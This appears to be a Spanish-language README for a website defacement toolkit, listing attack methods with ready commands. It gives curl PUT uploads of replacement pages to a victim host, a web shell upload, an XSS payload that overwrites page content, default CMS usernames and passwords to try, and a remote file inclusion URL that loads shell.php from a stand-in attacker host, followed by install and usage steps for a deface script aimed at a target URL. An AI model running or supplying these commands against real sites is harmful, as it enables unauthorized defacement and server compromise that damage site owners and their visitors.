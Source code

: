 ## Defacement web; 

modifica o reemplaza el contenido de un sitio web sin autorización

## Metodos mas usados para deface web 

### 1.- Metodo PUT

curl -X PUT -d "@index25.htm" http://victima.com/index.htm

## 2.-Metodo SQLi Inyección SQL

curl -s "${URL}${VULN_PATH}${TEST_PAYLOAD}

## 3.- Metodo upload, subir una shell.php

curl -F "file=@shell.php" http://victima.com/upload

## 4.- Metodo XSS

<script>document.body.innerHTML = "HACKED";</script>

## 5 - Metodo Vulnerabilidades en CMS (WordPress, Joomla, Drupal), credenciales debiles

Usuarios: admin, wordpress, drupal, jomla, manager, administrator .. ,-  Claves: admin, joomla, drupal, wordpress, 123456, password

## 6.- Metodo remote File Inclusion (RFI) / Local File Inclusion (LFI)

http://victima.com/index.php?page=http://atacante.com/shell.php

#

## Defacement WEB suite por HTTP Method PUT OPTIONS POST OSVDB-397

curl -k -X PUT -T "/tmp/index25.htm" "https://IP/index25.htm" -vv

## Instalación:

apt-get install #https://github.com/hackingyseguridad/webdeface

cd webdeface

chmod 777 *

Uso:

sh deface.sh http://paginaobjetivo.com/

## Test HTTP Method PUT OPTIONS POST, activo:

sh testurl.sh fqdn

El método HTTP PUT normalmente se usa para cargar datos que se guardan en el servidor web en una URL proporcionada por el usuario. Si está habilitado, un atacante puede colocar contenido en la aplicación Web. Dependiendo de la configuración del servidor, esto puede llevar a un compromiso de otros usuarios (mediante la carga de scripts ejecutables por el cliente), el compromiso del servidor (al cargar el código ejecutable del servidor) u otros ataques.


http://www.hackingyseguridad.com/secure/index2.htm

